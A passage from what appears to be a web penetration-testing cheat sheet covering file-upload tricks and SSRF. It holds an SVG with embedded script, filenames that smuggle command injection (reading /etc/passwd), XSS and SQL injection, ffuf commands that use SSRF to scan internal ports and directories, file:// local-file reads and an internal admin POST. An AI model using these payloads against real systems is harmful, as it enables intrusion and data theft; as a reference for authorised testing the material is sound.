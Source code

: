 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(1);</script>
</svg>
```

#### Injection via filename

Naming a file like 

 - `me$(cat /etc/passwd).jpg` may lead to a command injection if used in a system command
 - `me<script>alert(1)</script>.jpg` may lead to XSS if the filename is displayed
 - `me';select sleep(5); -- .jpg` may leed to SQLi if used in a SQL query.

#### Upload directroy discovery

 - Bruteforce with tools liek `gobuster`
 - Provoke a error message:
   - To long filenames (5000 characters+)
   - Reserved characters (`|`, `<`, `>`, `$`, `*`, `?`)
   - Reserved names like `CON`, `COM1`, `LPT1`, ... (Windows only) 


## Server-side attacks

#### SSRF - server-side request forgery

**Using SSRF as portscanner**

```bash
seq 1 10000 > ports.txt
ffuf -w ports.txt -u "https://pentest-experts.com/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "ssrf_endpoint=https://192.168.1.2:FUZZ/" -fr "Failed to connect to"
```

**Using SSRF to scan files and directories**

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u "https://pentest-experts.com/index.php" -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "ssrf_endpoint=https://192.168.1.2/FUZZ" -fr "404 Not Found"
```

**Reading files from the local filesystem via SSRF**

Use `file://` in the URL to to read loacl files - e.g. sourcecode disclosure: 

`ssrf_endpoint=file:///var/www/html/index.php`

**Using the gopher protocal to submit post requests to an internal endpoint**

Given we need to send the HTTP request

```http
POST /admin.php HTTP/1.1
Host: 192.168.1.2
Content-Length: 21
Content-Type: application/x-www-form-urlencoded

user=admin&pass=admin
```
